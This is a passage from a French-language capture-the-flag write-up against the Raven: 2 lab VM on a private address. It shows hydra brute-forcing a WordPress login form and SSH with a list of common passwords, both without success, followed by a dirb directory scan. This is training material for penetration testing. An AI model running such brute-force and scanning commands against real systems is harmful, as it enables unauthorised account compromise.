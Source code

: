 ```console
root@blinils:~# hydra -l michael -P 500-worst-passwords.txt 192.168.56.102 \
-V http-form-post '/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'

--snip--

[DATA] attacking http-post-form://192.168.56.102:80//wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location
[ATTEMPT] target 192.168.56.102 - login "michael" - pass "123456" - 1 of 500 [child 0] (0/0)
[ATTEMPT] target 192.168.56.102 - login "michael" - pass "password" - 2 of 500 [child 1] (0/0)
[ATTEMPT] target 192.168.56.102 - login "michael" - pass "12345678" - 3 of 500 [child 2] (0/0)
[ATTEMPT] target 192.168.56.102 - login "michael" - pass "1234" - 4 of 500 [child 3] (0/0)
[ATTEMPT] target 192.168.56.102 - login "michael" - pass "pussy" - 5 of 500 [child 4] (0/0)
--snip--
[ATTEMPT] target 192.168.56.102 - login "michael" - pass "mistress" - 496 of 500 [child 3] (0/0)
[ATTEMPT] target 192.168.56.102 - login "michael" - pass "phantom" - 497 of 500 [child 6] (0/0)
[ATTEMPT] target 192.168.56.102 - login "michael" - pass "billy" - 498 of 500 [child 1] (0/0)
[ATTEMPT] target 192.168.56.102 - login "michael" - pass "6666" - 499 of 500 [child 0] (0/0)
[ATTEMPT] target 192.168.56.102 - login "michael" - pass "albert" - 500 of 500 [child 5] (0/0)
1 of 1 target completed, 0 valid passwords found
```

Toujours pas de chance pour WordPress. Et pour SSH ?

```console
root@blinils:~# hydra -l michael -P 500-worst-passwords.txt 192.168.56.102 ssh -t 4
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

--snip--

[DATA] attacking ssh://192.168.56.102:22/
1 of 1 target completed, 0 valid passwords found
```

Enfer et damnation ! À tous les coups, la première mesure de sécurité prise par _Raven Security_ a été de modifier le mot de passe du compte michael, qui était... michael, évidemment. Il n'est donc plus possible de s'y connecter en SSH sur la VM Raven: 2. Il va donc falloir trouver un autre moyen d'obtenir un shell sur ce serveur ! Reprenons les outils un à un.

```console
root@blinils:~# dirb http://192.168.56.102 -r

--snip--

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.56.102/ ----
==> DIRECTORY: http://192.168.56.102/css/            
==> DIRECTORY: http://192.168.56.102/fonts/          
==> DIRECTORY: http://192.168.56.102/img/            
+ http://192.168.56.102/index.html (CODE:200|SIZE:16819)                                                                            
==> DIRECTORY: http://192.168.56.102/js/             
==> DIRECTORY: http://192.168.56.102/manual/         
+ http://192.168.56.102/server-status (CODE:403|SIZE:302)                                                                           
==> DIRECTORY: http://192.168.56.102/vendor/         
==> DIRECTORY: http://192.168.56.102/wordpress/      

--snip--
```

